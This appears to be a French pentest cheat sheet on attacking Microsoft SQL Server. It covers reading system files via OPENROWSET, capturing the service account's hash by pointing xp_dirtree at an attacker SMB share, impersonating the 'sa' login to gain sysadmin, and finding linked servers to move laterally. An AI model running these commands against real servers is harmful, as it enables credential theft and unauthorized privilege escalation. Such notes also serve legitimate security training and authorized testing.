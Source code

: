 ```cmd-session
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```

#### Capture du Hash du compte de service MSSQL

1. Lancer responder ou impacket-smbserver [[LLMNR, NBT-NS Poisoning & SMB Relay - T1557.001#RESPONDER]]
2. XP_DIRTREE

```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```
 
 ou XP_SUBDIRS
 
```cmd-session
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```

3. Puis relai smb ou crack du hash

#### Impersonation d'un user

Identifier les users dont l'usurpation est possible
```cmd-session
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO
```

Impersonation du user sa (depuis la masterdb)
```cmd-session
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

Possible maintenant d'exécuter des commandes en admin de la db

#### Latéraliser vers une autre DB

https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver16

Linked servers -> permet de faire une requête vers une autre base de données.

Identifier les serveurs liés

```cmd
SELECT srvname, isremote FROM sysservers
GO
```

si isremote = 0 alors linked server
